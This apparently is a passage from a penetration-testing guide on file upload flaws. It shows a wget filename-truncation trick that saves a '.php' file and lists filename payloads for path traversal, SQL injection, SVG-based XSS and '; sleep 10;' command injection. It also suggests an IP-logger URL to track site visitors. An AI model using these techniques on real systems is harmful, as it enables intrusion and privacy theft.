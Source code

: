 ```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```

```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
```

Note that **another option** you may be thinking of to bypass this check is to make the **HTTP server redirect to a different file**, so the initial URL will bypass the check by then wget will download the redirected file with the new name. This **won't work** **unless** wget is being used with the **parameter** `--trust-server-names` because **wget will download the redirected page with the name of the file indicated in the original URL**.

## Tools

- [Upload Bypass](https://github.com/sAjibuu/Upload_Bypass) is a powerful tool designed to assist Pentesters and Bug Hunters in testing file upload mechanisms. It leverages various bug bounty techniques to simplify the process of identifying and exploiting vulnerabilities, ensuring thorough assessments of web applications.

## From File upload to other vulnerabilities

- Set **filename** to `../../../tmp/lol.png` and try to achieve a **path traversal**
- Set **filename** to `sleep(10)-- -.jpg` and you may be able to achieve a **SQL injection**
- Set **filename** to `<svg onload=alert(document.domain)>` to achieve a XSS
- Set **filename** to `; sleep 10;` to test some command injection (more [command injections tricks here](../command-injection.md))
- [**XSS** in image (svg) file upload](../xss-cross-site-scripting/#xss-uploading-files-svg)
- **JS** file **upload** + **XSS** = [**Service Workers** exploitation](../xss-cross-site-scripting/#xss-abusing-service-workers)
- [**XXE in svg upload**](../xxe-xee-xml-external-entity.md#svg-file-upload)
- [**Open Redirect** via uploading svg file](../open-redirect.md#open-redirect-uploading-svg-files)
- Try **different svg payloads** from [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)\*\*\*\*
- [Famous **ImageTrick** vulnerability](https://mukarramkhalid.com/imagemagick-imagetragick-exploit/)
- If you can **indicate the web server to catch an image from a URL** you could try to abuse a [SSRF](../ssrf-server-side-request-forgery/). If this **image** is going to be **saved** in some **public** site, you could also indicate a URL from [https://iplogger.org/invisible/](https://iplogger.org/invisible/) and **steal information of every visitor**.